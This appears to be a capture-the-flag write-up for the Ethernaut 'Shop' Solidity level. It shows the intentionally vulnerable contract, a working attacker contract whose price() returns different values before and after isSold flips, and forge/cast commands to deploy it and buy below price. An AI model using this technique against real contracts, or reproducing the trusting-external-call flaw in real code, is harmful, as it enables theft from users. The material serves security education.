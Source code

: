 ## Shop Level Outline

**Difficulty : 4/10**

Сan you get the item from the shop for less than the price asked?

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x3aCd4766f1769940cA010a907b3C8dEbCe0bd4aB)

## Solution

Simmilar solution to level 11_Elevator. We need to make a function that returns two different values the first and second time that it is called.

Functions with the **view modifier** cannot modify state so we need to monitor the Shop contract for when the boolean `isSold` changes and return a different value based on when it equals true or false.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Buyer {
    Shop shop;

    constructor(address _shop) {
        shop = Shop(_shop);
    }

    function attack() public {
        shop.buy();
    }

    function price() external view returns (uint) {
        return shop.isSold() ? 1 : 100;
    }
}

interface Shop {
    function isSold() external view returns (bool);
    function buy() external;
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:Buyer --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "attack()" --gas 90000 --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

### [:arrow_left: Back To Main Menu](../README.md)
